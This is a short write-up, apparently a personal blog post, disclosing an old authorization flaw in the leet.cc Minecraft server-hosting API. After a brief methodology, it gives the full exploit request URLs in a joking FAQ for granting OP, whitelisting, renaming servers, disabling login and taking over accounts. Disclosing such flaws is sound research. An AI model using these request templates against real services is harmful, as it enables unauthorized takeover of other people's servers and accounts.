 ```yaml
---
title: leet.cc account takeover (old bug)
---
```


<https://leet.cc> is an Minecraft bedrock server hosting provider.  
The following bug allowed getting OP just by knowing someone's server domain.

This bug is from 2016 the same time they had their database breached <https://news.softpedia.com/news/data-for-6-million-minecraft-gamers-stolen-from-leet-cc-servers-507445.shtml> where someone uploaded a PHP shell to their website... This is from memory I may get stuff wrong.

I would hope it's fixed now 🙂but then this is `leet.cc`

# Methodology
Reverse engineer the Android app using online apk decompilers and look at the network traffic using <https://www.telerik.com/fiddler> to see if the API did authentication correctly.  
Credit: <https://www.youtube.com/watch?v=LbZqaLKS7V4>

Server IDs (Incremental number) are used to identify what server to act on for the API.  
This could be gotten easily by using `https://leet.cc/verifyServerDomain.php?domain=<domain>`  
The user ID which used to be optional was the user's email address or their device ID.

# The exploit
In order to exploit this one would make a request to:

`https://mainapi.leet.cc/actionNew.php?cmd=<command>&userID=<userID>&params[]=<serverID>&params[]=<commandParameter>&versionCode=176&password=something_secret&client=google-free&k=<Base 64 encoded MD5 Hash of part of the URL>&sys=<Base 64 encoded MD5 Hash of part of the URL>`
No one knows why `k` and `sys` were there.

And now the how to exploit FAQ 🙂
# I want OP!
- `<command>` is `changeOP`
- `<commandParameter>` is your in-game name

# I'm not whitelisted. What should I do?
- `<command>` is `changeWhitelistPlayers`
- `<commandParameter>` is your in-game name

# The server name is missing a duck emoji, no problem!
- `<command>` is `changeServerName`
- `<commandParameter>` is 🦆

# This old login using `/login <password>` is too annoying.
- Just set `setUserRegistration` to off!

# I wanted an account takeover!
Okay send a request to `https://mainapi.leet.cc/serverLogin.php?serverEmail=<attacker email>&serverPassword=<attacker password>&registerServerID=<serverId>&registerUserID=<userId>`  
![leet.cc](https://ndevtk.github.io/writeups/leetcc.png)
